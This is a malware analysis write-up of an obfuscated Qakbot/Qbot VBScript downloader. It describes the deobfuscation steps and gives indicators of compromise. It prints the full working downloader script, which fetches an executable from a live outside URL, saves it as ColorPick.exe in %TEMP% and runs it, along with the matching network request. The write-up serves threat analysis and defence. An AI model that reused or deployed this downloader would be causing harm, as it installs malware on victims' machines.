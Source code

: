 # Qakbot/Qbot Downloader


## Situation:

I came across an interesting obfuscated sample on `Any.Run`.

## Metadata:

- `db2614353dc6c29dbe323dbeafe6b781`

## Analysis:

The sample has a ton of comments making the file size total around `~4mb`.

This was easily parsed out with `sed 's/^\x27//'`.

The next step is to idenify where code is evaluated which was here `exECuTeglOBal sHLW(iDxY)`.

Changed this to `WScript.Echo` then also had to backtrack for a variable which defined before the evaluation.

This variable contained an array of strings which contain object names and the downloader URL, User-Agent etc.

I also had to comment out the part which causes it to sleep for `30` seconds.

Below is the script after everything has been put into a readable format.

```js
Wscript.Sleep 30000
on error resume next
set a = WScript.CreateObject("WScript.Shell")
set b = WScript.CreateObject("Scripting.FileSystemObject")
f = a.ExpandEnvironmentStrings("%TEMP%") & "\x.url"
set c = a.CreateShortcut(f)
c.TargetPath = "an"
c.Save
if b.FileExists(f) = false Then
	e = a.ExpandEnvironmentStrings("%TEMP%") & "\ColorPick.exe"
	Call u
	sub u
		set d = createobject("MSXML2.ServerXMLHTTP.6.0")
		set w = createobject("Adodb.Stream")
		d.Open "GET", "http://mostasharanetalim.ir/wp-content/uploads/2020/02/recent/444444.png", False
		d.setRequestHeader "User-Agent", "HanamiRuby"
		d.Send
		with w
			.type=1
			.open
			.write d.responseBody
			.savetofile e, 2
		end with
	end sub
	WScript.Sleep 60000
	a.Exec(e)
end if
```

### Network Traffic:
```http
GET /wp-content/uploads/2020/02/recent/444444.png HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-us
User-Agent: HanamiRuby
Host: mostasharanetalim.ir
```

The payload named ColorPick.exe `Qakbot/QBot` will be dropped to the `%TEMP%` folder.

## IOCS:

```http
db2614353dc6c29dbe323dbeafe6b781
hxxp://mostasharanetalim[.]ir/wp-content/uploads/2020/02/recent/444444[.]png
User-Agent: HanamiRuby
```

## References:
- [Samples](/samples/2020-02-12-qakbot-downloader.zip)
- [Any.Run](https://app.any.run/tasks/d93b5d16-b34d-4f9f-ae35-6e5feabfb4e3/)
- [VirusTotal](https://www.virustotal.com/gui/file/557daae4c867c0f543cdfda80a85dd4e4dfd268e11861739b0654cbf09c06b31/detection)
- [Twitter](https://twitter.com/c3rb3ru5d3d53c/status/1227767571547590657)

